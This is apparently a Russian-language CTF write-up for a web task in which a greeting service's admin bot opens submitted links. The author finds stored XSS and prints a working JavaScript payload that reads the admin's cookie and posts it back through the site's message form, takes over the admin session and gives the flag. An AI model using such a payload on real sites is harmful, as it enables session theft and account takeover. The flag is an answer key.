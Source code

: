# Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. 

Решил протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:

![01ff57a79a0dcad0b6ea900974bdbff2.png](89bc584a63294eefbef21d3c22d51a36.png)

Если на сайте присутствует уязвимость XSS, то мой код выполнится и слово "Получилось" будет красным.

![c1952e4ca063fe04ea7147ae74a0c93b.png](14317a9fc19b49a5a8edab2af2292bd6.png)

Получилось.

Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.

Смотрю на запрос отправки сообщения:

![d0e63b832fa8e679ec6de31fb215b334.png](5b33abac634641848e5c3a9a3e97a504.png)

Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.

Получившийся XSS код:

```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:

![58520ebb793637c0a39e027f02d1a2b8.png](d810864aa54e4c43979bd3ab4fe6d417.png)

![8ee3a460d9ed68237c0bbb55d90f535e.png](88c87f3349654e118c522e5305989691.png)

Работает!

Отправляю админу:

![6dedd39a049aa10e189e4f572d42f2ed.png](dbc705998b694f348cdbb4776aca0f31.png)

![7fcc9160723edca6e84af57a1e588130.png](0b322daedf7342e1b894ef1d33ecf9bd.png)

Получил куки, подставил.

![417f816693ec6c84653fe17531d90468.png](8ecd36eb852640cfa1864f04bc97d4af.png)

![f07417e63fc409536b22212ef69b17b0.png](bcbd3ac5a43446a4a66bfa2820e2cc1a.png)

`Имя: admin Админ: True` - Я под админом.

Здесь веб за 50.

![14f19ae3737ef24942ed5606b40938a2.png](0aaead849121443f9e8fb2ce466acbc6.png)

Все.
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

